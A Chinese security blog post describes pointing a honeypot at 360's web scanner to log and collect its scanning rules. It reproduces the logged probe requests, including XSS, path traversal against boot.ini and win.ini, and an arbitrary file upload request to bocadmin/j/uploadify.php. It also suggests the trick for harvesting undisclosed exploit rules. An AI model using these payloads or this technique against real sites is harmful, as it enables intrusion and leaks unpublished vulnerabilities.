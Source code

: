 # 收集扫描规则(payload)

Feei <feei#feei.cn> 

## 0x01 背景思路
最近发现一种新的收集漏洞扫描规则的思路。
360有一款安全监测工具，360网站安全`http://webscan.360.cn/`
能检测各类网站安全问题，由此猜测背后肯定是一款扫描器。
那我是不是搭建一个蜜罐程序，让他去监测，然后我将所有日志全部记录下来。这样我就有了和360一样全的扫描规则库了？

## 0x02 测试验证
以下是测试结果，提交扫描网站后，没多久我的服务器就收到很多请求日志。

```bash
GET http://blog.feei.cn/  
GET http://blog.feei.cn/robots.txt  
GET http://blog.feei.cn/  
GET http://blog.feei.cn/index.php?a=1<script>alert(abc)<%2Fscript>  
GET http://blog.feei.cn/  
GET http://blog.feei.cn/nevercouldexistfilenosec  
GET http://blog.feei.cn/nevercouldexistfilewebsec  
GET http://blog.feei.cn/nevercouldexistfilenosec.aspx  
GET http://blog.feei.cn/nevercouldexistfilewebsec.aspx  
GET http://blog.feei.cn/nevercouldexistfilenosec.shtml  
GET http://blog.feei.cn/nevercouldexistfilewebsec.shtml  
GET http://blog.feei.cn/nevercouldexistfilenosec/  
GET http://blog.feei.cn/nevercouldexistfilewebsec/  
GET http://blog.feei.cn/nevercouldexistfilenosec.zip  
GET http://blog.feei.cn/nevercouldexistfilenosec.zip  
GET http://blog.feei.cn/nevercouldexistfilewebsec.zip  
GET http://blog.feei.cn/nevercouldexistfilenosec.php  
GET http://blog.feei.cn/nevercouldexistfilewebsec.php  
GET http://blog.feei.cn/nevercouldexistfilenosec.bak  
GET http://blog.feei.cn/nevercouldexistfilewebsec.bak  
GET http://blog.feei.cn/nevercouldexistfilenosec.rar  
GET http://blog.feei.cn/nevercouldexistfilewebsec.rar  
GET http://blog.feei.cn/  
PUT http://blog.feei.cn/jsky_web_scanner_test_file.txt zwell@nosec.org  
GET http://blog.feei.cn/jsky_web_scanner_test_file.txt  
GET http://blog.feei.cn/  
GET http://blog.feei.cn/wp-admin  
GET http://blog.feei.cn/admin.php  
GET http://blog.feei.cn/nosec_Web_Scanner_Test.dll  
GET http://blog.feei.cn/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/boot.ini  
GET http://blog.feei.cn/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/win.ini  
GET http://blog.feei.cn/dede/  
```

等检测完，过滤分析请求日志，统计扫描规则多达数千条。
并且，我从请求日志发现一条惊人的规则：

```
POST http://blog.feei.cn/bocadmin/j/uploadify.php -----------------------------  
Content-Disposition: form-data; name="folder"

/
-----------------------------
Content-Disposition: form-data; name="Filedata"; filename="scan_upload.txt"  
Content-Type: text/plain

This is a txt ,please delete it and scan website again --by webscan  
-----------------------------
Content-Disposition: form-data; name="submit"  
```

## 0x03 意外发现
`bocadmin/j/uploadify.php` , 这条规则是我曾经白盒审计时发现的一个任意文件上传漏洞，影响数十家大型集团、企业官网，当时报给了补天。
也就是说，补天会将所有的漏洞利用规则添加进360网站安全里面去。
而补天的漏洞是不对第三者公开的，那如果这样的话，就可以利用上面方式收集所有未公开的漏洞检测方法，甚至是漏洞利用方式。并且用同样的方法去收集类似百度安全宝、唐朝安全扫描等等的规则集。
